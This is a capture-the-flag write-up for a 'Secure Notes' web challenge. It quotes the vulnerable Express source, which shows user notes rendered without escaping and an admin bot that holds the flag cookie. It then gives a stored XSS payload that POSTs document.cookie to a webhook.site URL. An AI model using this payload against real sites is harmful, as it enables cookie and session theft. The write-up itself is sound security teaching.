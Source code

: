 # UM6P_Quals

## ChallengeName: Secure Notes



<strong>challenge discription</strong>

<img src='./assets/1.png' style="max-width:40%">



<h3>visiting the challenge on browser</h3>

<img src='./assets/2.png' style="max-width:40%">

<h3>Let's check the source code</h3>

<h3>In this endpoint it takes a note without any filtration saving it and return the note link</h3>

```javascript
app.post('/save', (req, res) => {
    if (Object.keys(notes).length > 100)
        notes = {}
    text = req.body.text;
    if (text.length > 1000)
        res.send('Note too long!');
    else {
        uid = uuidv4();
        notes[uid] = text;
        res.send(`note saved successfully, <a href=/notes/${uid}>link</a>.`);
    }
});
```

<h3>The note link was taking us to an endpoint <strong>/notes/[uid]</strong></h3>
<h3>Let's check the endpoint</h3>

```javascript
app.get('/notes/:uid', (req, res) => {
    const { uid } = req.params;
    const uidPattern = /^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[89aAbB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$/;
  
    if (uidPattern.test(uid)) {
        if (uid in notes) {
            html = `
            <table>
              <thead>
                <tr>
                  <th>UID</th>
                  <th>Note</th>
                  <th>Actions</th>
                </tr>
              </thead>
              <tbody>
                <tr>
                  <td>${uid}</td>
                  <td>${notes[uid]}</td>
                  <td>
                    <button onclick="fetch('/report/${uid}').then(response => response.text()).then(data => alert(data)).catch(error => alert(error));">share with admin</button>
                  </td>
                </tr>
              </tbody>
            </table>
          `;
          res.send(html);
        } else {
            res.send('Note not found.');
        }
    } else {
        res.send('Invalid UID.');
    }
});
```

<h3>
So it only print our note without any filteration<br/>
Hmm Let's try some <strong>XSS</strong>
</h3>

<br/>
<img src='./assets/3.png' style="max-width:40%">
<br/>
<br/>

<h3>Let's save the Note and visite the click on the link</h3>
<br/>

<img src='./assets/4.png' style="max-width:40%">

<h3>It works and there's also a button <strong>share with admin</strong></h3>

<img src='./assets/5.png' style="max-width:40%">

<h3>
Let's check the source code again to see how <strong>/report</strong> endpoint works 
</h3>

```javascript
app.get('/report/:uid', (req, res) => {
    if (reports.length > 100)
        reports = []
    const { uid } = req.params;
    const uidPattern = /^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[89aAbB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$/;

    if (uidPattern.test(uid))
    {
        if (reports.indexOf(uid) != -1)
            res.send("this note has already been shared with admin!");
        else
        {
            reportNote(`/notes/${uid}`);
            reports.push(uid);
            res.send("note has been sent to the admin!");
        }
    }
});
```
<h3>It's doing simple checks and then sends the url to a <strong>reportNote</strong> function<br/>So let's check that</h3>

```javascript
FLAG = process.env.FLAG || "akasec{ssss}"

async function reportNote(url) {
    try {
        const browser = await puppeteer.launch({ executablePath: '/usr/bin/google-chrome', headless: "new", args: ['--no-sandbox', '--disable-setuid-sandbox'] });
        const page = await browser.newPage();
  
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost:3000'
        });
        await page.goto(`http://localhost:3000`);
        await page.evaluate((url) => {
            location.href = url;
        }, url);
        await new Promise(resolve => setTimeout(resolve, 5000));
        await browser.close();
    } catch (err) {
        console.log("?:", err);
    }
}
```
<h3>It user <strong>puppeteer</strong>.<br/>
<strong>Puppeteer</strong> is a Node. js library developed by Google that lets you control headless Chrome through the DevTools Protocol.<br/><br/>
Let's break this down to see what this doing exactly<br/>
It set's a <strong>cookie</strong> flag and its value is our flag that is loaded from the <strong>env</strong><br/>
and then visits the url passed passed as argument which is the our Note url<br/>
</h3>



<h3>So we can pass a payload to read the <strong>cookie</strong> and send it to us using http request.</h3>
<h3>First I let's open a <strong>webhook</strong>  that will start listning on our request</h3>

<img src='./assets/6.png' style="max-width:40%">

<h3>let's put our payload in a note and <strong>report it to admin</strong></h3>


```javascript
fetch('https://webhook.site/00dab9f6-07c5-4a73-902f-ebc4f97a7eb6', {method: "POST", body: document.cookie})
// Full payload will be like this
<script>
fetch('https://webhook.site/00dab9f6-07c5-4a73-902f-ebc4f97a7eb6', {method: "POST", body: document.cookie})
</script>
```
<img src='./assets/7.png' style="max-width:40%">
<br/>
<h3>Save the note and visit it's link you should reseve first post<br/>request in your webhook when the xss executed in your client-side</h3>
<br/>
<img src='./assets/8.png' style="max-width:40%">
<br/>
<br/>
<img src='./assets/9.png' style="max-width:40%">


<h3>Now let's make admin visit the note by clicking on <strong>share with admin</strong> button</h3>


<img src='./assets/10.png' style="max-width:40%">
<h3>and as you can see we recieved our flag</h3>
<hr/>
<h2>The flag <strong>AKASEC{GooD_0LD_BX55}</strong></h2>
